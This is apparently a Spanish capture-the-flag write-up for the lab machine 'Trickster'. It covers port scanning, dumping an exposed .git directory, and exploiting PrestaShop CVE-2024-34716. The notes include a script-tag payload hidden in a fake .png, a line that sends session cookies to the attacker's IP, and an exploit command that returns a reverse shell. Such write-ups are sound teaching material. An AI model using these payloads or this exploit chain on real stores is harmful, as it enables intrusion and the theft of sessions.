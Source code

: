 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas comodamente
